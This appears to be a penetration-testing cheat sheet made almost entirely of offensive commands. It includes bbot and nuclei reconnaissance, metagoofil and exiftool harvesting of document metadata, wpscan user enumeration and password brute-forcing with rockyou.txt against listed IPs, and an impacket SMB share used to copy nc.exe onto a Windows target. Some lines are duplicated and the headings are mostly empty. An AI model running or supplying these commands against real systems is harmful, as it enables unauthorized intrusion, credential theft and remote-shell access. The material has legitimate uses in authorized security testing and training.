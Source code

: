 
##  Everything everywhere all at once:


##  Subdomains, emails, cloud buckets
##  port scan, basic web, 
##  web screenshots, nuclei
bbot -t evilcorp.com -f subdomain-enum email-enum cloud-enum web-basic -m nmap gowitness nuclei --allow-deadly


##  
metagoofil -d $domain -t pdf,doc,xls,ppt,odp,ods,docx,xlsx,pptx -l 20 -n 20  -o ~/Desktop/$domain/metagoofil/ -f ~/Desktop/$domain/users_temp.txt 


##  
python metagoofil.py -d motorola.com -t doc,pdf -l 100 -n 3 -o motorolafiles
 
 
##  
exiftool -r *.doc | egrep -i "Author|Creator|Email|Producer|Template" | sort -u
 
 
##  
python metagoofil.py -d [domain name] -t doc,pdf -l 100 -n 3 -o motorolafiles



##   [+]  WPScan - 
wpscan --url https://<RHOST> --enumerate u,t,p
wpscan --url https://<RHOST> --plugins-detection aggressive
wpscan --url https://<RHOST> --disable-tls-checks
wpscan --url https://<RHOST> --disable-tls-checks --enumerate u,t,p
wpscan --url http://<RHOST> -U <USERNAME> -P passwords.txt -t 50


##  
wpscan --username bully --url http://172.31.2.117/bull/ --wordlist words-john.txt --threads 10


##  
wpscan --url 172.31.2.117/bull/ -r --enumerate u --enumerate p --enumerate t --enumerate tt


##  
wpscan –u http://192.168.1.103/backup_wordpress --username john --wordlist /usr/share/wordlists/rockyou.txt



## SMB
impacket-smbserver share -smb2support /tmp/

copy \\192.168.1.13\share\nc.exe
